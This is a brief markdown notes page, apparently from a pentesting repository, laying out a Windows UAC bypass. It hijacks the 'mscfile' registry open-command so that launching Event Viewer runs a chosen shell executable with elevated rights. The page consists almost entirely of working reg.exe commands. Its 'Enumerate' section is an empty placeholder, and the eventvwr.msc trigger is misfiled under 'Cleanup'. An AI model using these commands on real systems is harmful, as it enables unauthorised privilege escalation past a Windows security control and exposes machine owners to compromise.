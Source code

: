 # Manual

## 01 - Enumerate

> [!IMPORTANT] Conditions
> Write the conditions...

## 02 - Exploit

```
C:\> reg.exe add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /f

C:\> reg.exe add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /t REG_SZ /d "C:\path\to\shell.exe" /f
```

## 03 - Cleanup

```
C:\> eventvwr.msc

C:\> reg.exe delete "HKCU\SOFTWARE\Classes\mscfile" /f
```